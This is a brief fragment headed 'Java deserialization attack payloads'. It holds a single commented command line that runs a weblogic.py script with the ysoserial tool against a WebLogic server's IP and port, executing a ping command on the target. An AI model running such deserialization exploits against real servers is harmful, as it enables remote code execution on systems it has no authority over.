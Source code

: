 # Java deserialization attack payloads
#WEBLOGIC
#python weblogic.py 1.2.3.4 9001 ./ysoserial-0.0.2-all.jar 'ping -n 3 10.112.2.129'

